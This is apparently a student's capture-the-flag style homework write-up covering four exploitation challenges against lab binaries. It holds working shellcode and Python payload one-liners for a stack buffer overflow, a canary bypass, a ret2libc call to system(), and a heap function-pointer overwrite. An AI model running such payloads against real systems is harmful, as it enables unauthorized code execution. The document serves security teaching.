










# Author

Derek Xu

# Challenge 1

This one involves a buffer overflow attack.

We first use the shell code provided in class that runs the assembly to invoke a shell.

```bash
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69
\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```

Then we run gdb on the binary to find the address of the buffer overflow. We found out that we have to overwrite about 80 bytes. With a 23 byte shell code, we pad the shell code with 39 NOPs, and 14 random bytes, then with the new return address we want to go to. With some trial and error with the padding and NOP sled, we are able to invoke the shell via the binary script.



We can then fill the buffer with the given code.

```bash
 python -c "print '\x90'*39+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f
 \x62\x69\x6e\xb0\x0b\x89\xe3\x31\
 xc9\x31\xd2\xcd\x80'+'A'*10 +'B'*4+'\x7c\xad\xff\xbf'" > asd
```

Then inspecting GDB, we can figure out where to put the return address (anywhere within the NOP area). This is different outside of GDB, which is why it took some trial and error to eventually work.



We use this return address and then we can invoke a shell.



# Challenge 2

This one is very similar to challenge 1. We can use the same distances between the buffer and return address as Challenge 1 but add 4 to it since instead of just a 64 byte buffer, we have an extra 4 byte buffer before that as well. So we have to overwrite 84 bytes.

This new code requires check of a canary at the position right after the buffer. So we need to add the canary value within our payload right after 64 bytes of something before. We can then add in the 4 byte canary value and add in the rest of the padding and return address to execute our injected shell code.

To get the value of the canary, I first flooded the 64 byte buffer with 63 A's (with the string terminator = 64 bytes). Then I inspected the stack and found the value right after the A's to be 0x726c576e. Upon looking at the raw c code, it's clear that the value won't change since rand() is used without a seed, so it will produce the same canary value every execution. We can put that canary value into our payload to bypass the canary check. Using the same process of using GDB to find the return address, we can update the return address to put the program into the NOP slide.


After a lot of trial and error, I was able to use the following

```bash
python -c "print '\x90'*41 + 
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b
\x89\xe3\x31\xc9\x31\xd2\xcd\x80'+ 
'\x6e\x57\x6c\x72' + 'A'*12 + '\x1c\x65\xff\xbf'" > asd2
```

This gave the following shell that we can use to get the flag.



# Challenge 3

This challenge involves a similar case to challenge 1, but now stack pages are separated between data and executable pages. Thus we need to find a way to return into libc so that we can run a libc function instead.

We first set the SHELL environment variable to be /bin/sh.

We need to overwrite 44 bytes. System is at 0xb7e2a250 as given by the `p system` command in GDB.





So in total, to create a stack frame for system(), we need to fill the buffer with 44 + 4 (func return address) + 4 (system() return addr) + 4 (system() parameters) = 56 bytes.

In order to get the /bin/sh binary, we can write a script that will get the environment of a binary and find the offset from SHELL to the beginning of the binary.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv) {

        char *target_env = argv[1];
        char *env = getenv(target_env);


        printf("%p\n", env);

        return 0;

}
```

This gives 0xbfffff0d. When using this address, we can insert it as the argument for system().



```bash
python -c "print 'A'*44 + '\x50\xa2\xe2\xb7' 
+ 'BBBB' + '\xfd\xfe\xff\xbf'" > asd3
cat ~/hw5/asd3 - | /usr/bin/binary3
```

This gives us an error if we use the address given to us by the getenv program. It shows that we are reading somewhere else in our ENV list. So we tweak the address of it to be 0xbffffefd instead. This points straight to "/bin/sh", which then gets called by system() and we then have a shell running under binary3. Eventually using the address above lets us run the shell.

This gives us the answer



# Challenge 4

This is a heap overflow attack. We need to overwrite the heap function pointer that points to "target" with the address of the shell. Then, when f->fp() is called, fp() will be pointing to the shell code we inject.

We first need to find the distance between r and f, since we are writing to r and want to overwrite f's heap memory. This was 1248.
So, we need to overwrite roughly 1248 + 4 bytes. So we can use 1225 (nop sled) + 23 (shell code) + 4 (new function start address)


The following worked for me. You can choose any return address within the heap memory pointed to by 'r' as those are all NOPs.

```bash
python -c "print '\x90'*1225 + 
'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0
\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80' + 
'\xe1\xb1\x04\x08'" > asd4

/usr/bin/binary4 $(cat ~/hw5/asd4)
```




